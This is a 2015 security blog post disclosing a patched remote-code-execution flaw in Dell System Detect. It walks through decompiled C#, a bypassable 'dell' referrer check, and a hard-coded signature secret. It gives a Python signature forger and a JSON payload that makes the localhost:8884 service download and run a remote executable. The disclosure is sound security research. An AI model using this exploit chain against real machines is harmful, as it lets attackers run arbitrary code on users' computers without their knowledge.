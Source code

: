 ```yaml
---
layout: single
title: "Dell System Detect RCE vulnerability"
date: 2015-03-23 15:16:10.058935
permalink: /dell-system-detect-rce-vulnerability
categories:
   - security
---
```


I recently discovered a serious flaw with Dell System Detect that allowed an attacker to trigger the program to download and execute an arbitrary file without any user interaction. Below is a summary of the issue and the steps taken to bypass the protections Dell put in place.

*Timeline:*

The issue was fixed within two months and Dell were clear in their communications throughout.

   * 11/11/2014 - Contacted Dell about the issue and received an acknowledgement
   * 14/11/2014 - Received confirmation that Dells Internal Assessment team is investigating
   * 9/1/2015 - Dell state that they have fixed the issue by introducing additional validation and obfuscation
   * 10/1/2015 - Checked patched program and could not reproduce this exploit
   * 23/3/2015 - This post is published

### Summary
Anyone who has owned a Dell will be familiar with the [Dell Support page](http://www.dell.com/support/). You can get all the latest drivers for your exact machine configuration from this site by entering your Dell Service Tag, which can be found on a sticker somewhere on your machine or through clicking the shiny blue "Detect Product" button.

![](/uploads/2014-12-15_20_57_40-_HR3AJAFL.png)

Clicking this button prompts you to download and install the "Dell System Detect" program, which is used to auto fill the service tag input and show you the relevant drivers for your machine.

While investigating this rather innocuous looking program I discovered that it accepts commands by listening for HTTP requests on *localhost:8884* and that the security restrictions Dell put in place are easily bypassed, meaning an attacker could trigger the program to download and install any arbitrary executable from a remote location with no user interaction at all.

### The interesting bit
If you click the button you are prompted to download and install the "Dell System Detect" program which conspicuously sits in your taskbar and starts itself with your machine. So this program is clearly part of the process of autodetecting the service tag, but how does the browser page communicate with it? You can use Chrome's excellent developer tools to view the network traffic of the page and see that it makes several requests to a service listening on localhost port 8884:

![](/uploads/http_connect_U47J6VNA.png)

Ok, so it seems that the Dell System Detect runs a HTTP server that listens for requests, which are sent from the Dell Support page's JavaScript. So let's take a closer look at the program - it's a .NET 2.0 executable and can be completely decompiled with [dotPeek](https://www.jetbrains.com/decompiler/) into a set of Visual Studio solutions. A quick search through the code for "http" brings us to *eSupport.Common.Client.Service.RequestHandlers.ProcessRequest* which is responsible for processing a request through the processes HTTP port. Below is an abbreviated snippet showing how this function authenticates that requests come from a valid Dell domain:

```c#
public void ProcessRequest(HttpListenerContext context)
{
    String url = "";
    if (context.Request.UrlReferrer == null) url = context.Request.Headers["Origin"];
    else url = context.Request.UrlReferrer.AbsoluteUri;

    if (absoluteUri.Contains("dell"))
    {
        if (context.Request.HttpMethod == "GET")
          this.HandleGet(context);
        else if (context.Request.HttpMethod == "POST")
          this.HandlePost(context);
        ...
    }
}
```

So that's our first issue: the program attempts to verify that the request is sent from a Dell domain by only checking if "dell" is in either the HTTP Referrer or Origin headers. Why is this a problem? **The HTTP Referrer can contain the *full* request URI** including the host and path. This means an attacker could easily make a request with an origin of "http://hacker.com/dell" and this would pass the initial test as "dell" is in the string. 

Armed with this information we can make requests to the program that are at least partially processed. Inside each of the method handlers (*HandleGet*, *HandlePost*) there is a fair bit of messy code, but below is a simplified version:

```c#
private void HandleGet(HttpListenerContext context)
{
  string[] urlParts = context.Request.Url.AbsolutePath.Split('/');
  MethodInfo method = FindService(urlParts[0]), urlParts[1]);

  string signature = context.Request.QueryString["signature"];
  string str3 = context.Request.QueryString["expires"];
  bool verified = new AuthenticationHandler().Authenticate(urlParts[0], urlParts[1], str3, signature);
  if (!verified) return Error()

  var result = method.Invoke(GetParameters(context.Request));
  return MakeResponse(result);
}
```

This function splits the request URL by the slash and uses the first two components to find the correct service to execute. In the Chrome screenshot above we see that the web page is making a request to **clientservice/isalive**, which means the program will execute the **isalive** method in the **clientservice** service.

After the service has been found it inspects two query string parameters, *signature* and *expires*, and passes them to the *Authenticate* method. If this passes then the service is invoked with other query string parameters as arguments.

It seems obvious by now that the program does a little bit more than simply retrieve your service tag, so before we look into the *Authenticate* method let's see what interesting things we can do.

### Services
There are three services that can be used: **diagnosticservice**, **downloadservice** and **clientservice**. Within these are 25 methods, including *getservicetag*, *getdevices*, *getsysteminfo*, *checkadminrights* and *downloadfiles*. It seems that the entire Dell system support package is included with System Detect, meaning if we can bypass the authentication then we can trigger any of these methods.

The most interesting method is called **downloadandautoinstall**, which does exactly what it says on the tin.

```c#
[ServiceName("downloadservice")]
public class DownloadServiceLogic
{
    [RemoteMethodName("downloadandautoinstall")]
    public static ServiceResponse DownloadAndAutoInstall(string files)
    {
        // Download and execute URL's passed in the files parameter without prompting the user
    }
}
```

If we can bypass the *Authenticate* method then we can trigger this function which will download and execute whatever file we tell it to by making a request to **http://localhost:8884/downloadservice/downloadandautoinstall**. So lets take a look at the authenticate method which is the only thing stopping us:

```c#
public bool Authenticate(string service, string method, string expiration, string signature)
{
    var secret = string.Format("{0}_{1}_{2}_{3}", service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85");
    var hash = new SHA256Managed().ComputeHash(Encoding.UTF8.GetBytes(secret));

    string stringToEscape = Convert.ToBase64String(hash).TrimEnd('=');
    bool flag = stringToEscape.ToLower() == signature.ToLower() || Uri.EscapeDataString(stringToEscape).ToLower() == signature.ToLower();
    if (!flag)
        ErrorLog.WriteLog("Not authenticated");
    return flag;
}
```

Wow. Ok, so not exactly the hardest thing to break. The service, method, expiration and signature arguments are all attacker controlled and passed through GET arguments. The only thing not controlled by a remote attacker is the hard-coded GUID *"2f68-48be-a09a-9f9b6424ad85"*.

Essentially all the function does is create a string with the arguments and the GUID then compare it with the one the user has given, and if it is a match the user is 'authenticated'. With this information in hand we can create a simple Python function to generate a valid signature:

```python
def make_signature(service, method):
    expiration = int(time.time()) + 400000

    secret_string = "{}_{}_{}_{}".format(
        service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85"
    )

    hashed = hashlib.sha256(unicode(secret_string, "utf-8"))
    print("Secret: {}".format(secret_string))
    print("Hash: {}".format(hashed.hexdigest()))
    return expiration, base64.encodestring(hashed.digest()).rstrip(b"\n").rstrip(b"=")
```

If we can generate a valid token then we can trigger the "downloadandautoinstall" method with our arbitrary file by causing the user to make a GET request, which is very very easy to do. A simple way would be to embed an image in a web page with the source set to "http://localhost:8884/downloadservice/downloadandautoinstall" with the appropriate GET arguments. After some investigation it seems that the DownloadAutoInstall method needs a list of JSON strings containing information about files to download and install. Sending a JSON object like the following with a valid signature will trigger a download:

```python
{
    "Name": "messbox.exe",
    "InstallOrder": 1,
    "IsDownload": True,
    "IsAutoInstall": True,
    "Location": "http://www.greyhathacker.net/tools/messbox.exe"
}
```


### Conclusion
So in conclusion we can make anyone running this software download and install an arbitrary file by triggering their web browser to make a request to a crafted *localhost* URL. This can be achieved a number of ways, and the service will faithfully download and execute our payload without prompting the user.

I don't think Dell should be including all this functionality in such a simple tool and should have ensured adequate protection against malicious inputs. After contacting Dell and discussing the issue with their internal security team they pushed out a fix that included obfuscating the downloaded binary. While I cannot be sure I think they simply changed the conditional from "if dell in referrer" to "if dell in referrer domain name", which may be slightly harder to exploit but just as severe. There is now also a big agreement you have to accept before downloading that specifies what the software can do.

    